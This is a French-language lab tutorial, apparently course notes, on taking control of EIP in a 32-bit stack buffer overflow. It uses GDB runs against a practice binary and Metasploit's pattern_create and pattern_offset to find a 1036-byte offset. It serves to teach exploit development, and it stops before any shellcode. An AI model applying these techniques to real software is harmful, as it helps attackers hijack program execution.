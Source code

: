 # Take Control of EIP

{% hint style="warning" %}
Un des aspects les plus importants d'un débordement de tampon basé sur la pile est de prendre le contrôle du pointeur d'instruction (EIP), afin que nous puissions lui indiquer vers quelle adresse il doit sauter. Cela fera pointer l'EIP vers l'adresse où notre shellcode commence et amènera le CPU à l'exécuter.
{% endhint %}

### <mark style="color:red;">Erreur de Segmentation</mark>

#### <mark style="color:green;">Prendre le Contrôle d'EIP</mark>

```bash
student@nix-bow:~$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

Si nous insérons 1200 "U" (hex "55") comme entrée, nous pouvons voir à partir des informations du registre que nous avons écrasé l'EIP. Comme nous le savons, l'EIP pointe vers la prochaine instruction à exécuter.

#### <mark style="color:green;">Prendre le Contrôle d'EIP</mark>

```bash
(gdb) info registers 

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP écrasé
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP écrasé
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

***

Cela signifie que nous avons un accès en écriture à l'EIP. Ceci, à son tour, permet de spécifier vers quelle adresse mémoire l'EIP doit sauter. Cependant, pour manipuler le registre, nous avons besoin d'un nombre exact de U jusqu'à l'EIP afin que les 4 octets suivants puissent être écrasés avec notre adresse mémoire désirée.

***

### <mark style="color:red;">Déterminer le Décalage</mark>

Le décalage est utilisé pour déterminer combien d'octets sont nécessaires pour écraser le tampon et combien d'espace nous avons autour de notre shellcode.

{% hint style="warning" %}
Le shellcode est un code de programme qui contient des instructions pour une opération que nous voulons que le CPU exécute. La création manuelle du shellcode sera discutée plus en détail dans d'autres modules. Mais pour économiser du temps d'abord, nous utilisons le Metasploit Framework (MSF) qui offre un script Ruby appelé "pattern\_create" qui peut nous aider à déterminer le nombre exact d'octets pour atteindre l'EIP. Il crée une chaîne unique basée sur la longueur d'octets que vous spécifiez pour aider à déterminer le décalage.
{% endhint %}

#### <mark style="color:green;">Créer un Motif</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot_1@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
mrroboteLiot_1@htb[/htb]$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```
{% endcode %}

Maintenant nous remplaçons nos 1200 "U" avec les motifs générés et concentrons à nouveau notre attention sur l'EIP.

#### <mark style="color:green;">GDB - Utilisation du Motif Généré</mark>

{% code fullWidth="true" %}
```bash
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```
{% endcode %}

#### <mark style="color:green;">GDB - EIP</mark>

```bash
(gdb) info registers eip

eip            0x69423569	0x69423569
```

Nous voyons que l'EIP affiche une adresse mémoire différente, et nous pouvons utiliser un autre outil MSF appelé "pattern\_offset" pour calculer le nombre exact de caractères (décalage) nécessaire pour avancer jusqu'à l'EIP.

#### <mark style="color:green;">GDB - Décalage</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot_1@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si nous utilisons maintenant précisément ce nombre d'octets pour nos "U", nous devrions atterrir exactement sur l'EIP. Pour l'écraser et vérifier si nous l'avons atteint comme prévu, nous pouvons ajouter 4 octets supplémentaires avec "\x66" et l'exécuter pour nous assurer que nous contrôlons l'EIP.

#### <mark style="color:green;">Décalage GDB</mark>

```bash
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Maintenant nous voyons que nous avons écrasé l'EIP avec nos caractères "\x66". Ensuite, nous devons découvrir combien d'espace nous avons pour notre shellcode, qui exécutera alors les commandes que nous avons l'intention d'exécuter. Comme nous contrôlons maintenant l'EIP, nous l'écraserons plus tard avec l'adresse pointant vers le début de notre shellcode.

